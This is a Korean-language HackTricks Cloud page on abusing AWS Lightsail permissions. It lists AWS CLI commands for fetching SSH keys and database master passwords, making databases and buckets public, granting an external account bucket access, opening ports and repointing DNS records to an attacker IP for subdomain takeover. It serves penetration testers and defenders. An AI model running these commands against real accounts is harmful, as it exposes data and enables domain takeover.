 # AWS - Lightsail Privesc

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}

## Lightsail

Lightsail에 대한 더 많은 정보는 다음을 확인하세요:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Lightsail은 **사용자에게 속한 IAM 역할을 사용하지 않고** AWS 관리 계정에 속하므로, 이 서비스를 악용하여 권한 상승을 할 수 없습니다. 그러나 **코드, API 키 및 데이터베이스 정보**와 같은 **민감한 데이터**는 이 서비스에서 발견될 수 있습니다.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

이 권한은 인스턴스에 접근하기 위한 SSH 키를 가져올 수 있게 해줍니다:
```
aws lightsail download-default-key-pair
```
**잠재적 영향:** 인스턴스 내에서 민감한 정보를 찾습니다.

### `lightsail:GetInstanceAccessDetails`

이 권한은 인스턴스에 접근하기 위한 SSH 키를 생성할 수 있게 해줍니다:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**잠재적 영향:** 인스턴스 내에서 민감한 정보를 찾습니다.

### `lightsail:CreateBucketAccessKey`

이 권한은 버킷에 접근할 수 있는 키를 얻을 수 있게 해줍니다:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**잠재적 영향:** 버킷 내에서 민감한 정보를 찾습니다.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

이 권한은 데이터베이스에 접근하기 위한 자격 증명을 얻을 수 있게 해줍니다:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**잠재적 영향:** 데이터베이스 내에서 민감한 정보를 찾습니다.

### `lightsail:UpdateRelationalDatabase`

이 권한은 데이터베이스에 접근하기 위한 비밀번호를 변경할 수 있게 해줍니다:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

데이터베이스가 공개되지 않은 경우, 다음 권한으로 공개할 수 있습니다.

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**잠재적 영향:** 데이터베이스 내에서 민감한 정보를 찾습니다.

### `lightsail:OpenInstancePublicPorts`

이 권한은 인터넷에 포트를 열 수 있도록 허용합니다.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**잠재적 영향:** 민감한 포트에 접근.

### `lightsail:PutInstancePublicPorts`

이 권한은 인터넷에 포트를 열 수 있게 해줍니다. 이 호출은 지정되지 않은 모든 열린 포트를 닫습니다.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**잠재적 영향:** 민감한 포트에 접근.

### `lightsail:SetResourceAccessForBucket`

이 권한은 인스턴스가 추가 자격 증명 없이 버킷에 접근할 수 있도록 허용합니다.

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**잠재적 영향:** 민감한 정보가 포함된 버킷에 대한 새로운 접근 가능성.

### `lightsail:UpdateBucket`

이 권한을 통해 공격자는 자신의 AWS 계정에 버킷에 대한 읽기 접근을 부여하거나 심지어 버킷을 모든 사용자에게 공개할 수 있습니다:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**잠재적 영향:** 민감한 정보가 포함된 버킷에 대한 새로운 접근 가능성.

### `lightsail:UpdateContainerService`

이 권한을 통해 공격자는 컨테이너 서비스에서 개인 ECR에 대한 접근을 부여할 수 있습니다.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**잠재적 영향:** 개인 ECR에서 민감한 정보 얻기

### `lightsail:CreateDomainEntry`

이 권한을 가진 공격자는 서브도메인을 생성하고 자신의 IP 주소로 포인팅할 수 있으며(서브도메인 탈취), 도메인에서 이메일을 스푸핑할 수 있도록 SPF 레코드를 작성하거나, 심지어 메인 도메인을 자신의 IP 주소로 설정할 수 있습니다.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**잠재적 영향:** 도메인 탈취

### `lightsail:UpdateDomainEntry`

이 권한을 가진 공격자는 서브도메인을 생성하고 자신의 IP 주소로 포인팅할 수 있으며(서브도메인 탈취), 도메인에서 이메일을 스푸핑할 수 있도록 SPF 레코드를 작성하거나, 심지어 메인 도메인을 자신의 IP 주소로 설정할 수 있습니다.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**잠재적 영향:** 도메인 탈취

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
